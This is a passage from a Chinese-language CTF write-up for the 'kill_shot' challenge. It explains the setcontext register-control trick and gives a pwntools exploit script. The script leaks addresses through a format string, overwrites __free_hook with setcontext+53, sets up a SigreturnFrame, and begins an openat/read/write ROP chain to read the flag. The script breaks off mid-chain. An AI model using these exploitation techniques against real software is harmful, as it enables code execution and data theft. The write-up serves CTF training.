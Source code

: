 进一步我们可以伪造该结构体，并且调用类似恢复上下文的函数`setcontext`，那么就可以控制所有的寄存器。

回到这一题在构造`rop`的时候需要注意两个点，一个是只能使用`openat`系统调用来打开文件，第二个就是这里打开文件之后的文件描述符是`5`，而不是`3`。

```
# encoding=utf-8
from pwn import *

file_path = "./kill_shot"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)

p = remote('bin.q21.ctfsecurinets.com', 1338)
libc = ELF('./libc.so.6')


def add(size, content=b"1212"):
    p.sendlineafter("3- exit\n", "1")
    p.sendlineafter("Size: ", str(size))
    p.sendafter("Data: ", content)


def delete(index):
    p.sendlineafter("3- exit\n", "2")
    p.sendlineafter("Index: ", str(index))


payload = "-%13$p-%25$p-"
p.sendlineafter("Format: ", payload)
p.recvuntil("-")
elf.address = int(p.recvuntil("-", drop=True), 16) - 0xd8c
libc.address = int(p.recvuntil("-", drop=True), 16) - 231 - libc.sym['__libc_start_main']
log.success("elf address is `{``}`".format(hex(elf.address)))
log.success("libc address is `{``}`".format(hex(libc.address)))

p.sendlineafter("Pointer: ", str(libc.sym['__free_hook']))
p.sendafter("Content: ", p64(libc.sym['setcontext'] + 53))

frame = SigreturnFrame()
frame.rip = libc.sym['read']
frame.rdi = 0
frame.rsi = libc.sym['__free_hook'] + 0x10
frame.rdx = 0x120
frame.rsp = libc.sym['__free_hook'] + 0x10


p_rsi_r = 0x0000000000023e8a + libc.address
p_rdi_r = 0x000000000002155f + libc.address
p_rdx_r = 0x0000000000001b96 + libc.address
p_rax_r = 0x0000000000043a78 + libc.address
syscall = 0x00000000000d29d5 + libc.address

flag_str_address = libc.sym['__free_hook'] + 0x110
flag_address = libc.sym['__free_hook'] + 0x140

orw = flat([
    p_rax_r, 257,
    p_rdi_r, 0xffffff9c,
    p_rsi_r, flag_str_address,
    p_rdx_r, 0,
    syscall, 
    p_rdi_r, 5,
    p_rsi_r, flag_address,
    p_rdx_r, 0x50,
    p_rax_r, 0,
```